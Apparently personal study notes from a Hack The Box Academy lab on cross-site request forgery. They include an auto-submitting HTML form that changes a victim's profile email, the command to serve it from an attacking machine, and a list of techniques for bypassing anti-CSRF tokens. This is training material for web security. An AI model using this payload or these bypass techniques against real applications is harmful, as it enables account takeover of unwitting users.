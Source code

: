     Code: html
    
    ```
    <html><body><form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST"><input type="hidden" name="email" value="attacker@htb.net" /><input type="hidden" name="telephone" value="&\#40;227&\#41;&\#45;750&#45;8112" /><input type="hidden" name="country" value="CSRF_POC" /><input type="submit" value="Submit request" /></form><script>
          document.getElementById("submitMe").submit()
        </script></body></html>
    ```
    
    If you are wondering how we ended up with the above form, please see the image below.
    
    [![](https://academy.hackthebox.com/storage/modules/153/29.png)](https://academy.hackthebox.com/storage/modules/153/29.png)
    
    We can serve the page above from our attacking machine as follows.
    
    ```
    KareemAlsadeq@htb[/htb]$ python -m http.server 1337Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    ```
    
    No need for a proxy at this time, so don't make your browser go  
    through Burp Suite. Restore the browser's original proxy settings.
    
    While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving.
    
    [![](https://academy.hackthebox.com/storage/modules/153/30.png)](https://academy.hackthebox.com/storage/modules/153/30.png)
    
    Our assumption that there is no CSRF protection in the application  
    was correct. We were able to change Ela Stienen's profile details via a  
    cross-site request.
    
    We can now use the malicious web page we crafted to execute CSRF attacks against other users.
    
    Next, we will cover how we can attack applications that feature anti-CSRF mechanisms.
    

  

## lets talk about how to bypass another CSRF protection?

- first technique is NULL value ..
    - some web applications dont really look at the token of the csrf so we can just put the the header and this may work with some of the web application requests and really make us aschieve our target of sending this forgerated request .
- another way is to put a random value but with the equal length of characters .
- we may try to use our accounts valid csrf to access anthere account and treat it as if it is the other accounts csrf token because some WA may not look if it is related to which account and may just look if it is valid in the data base without making sure if it is valid for that account we are going to make a change on .
- To bypass anti-CSRF protections, we can try changing the request method. From _POST_ to _GET_
    
    Unexpected requests may be served without the need for a CSRF token.
    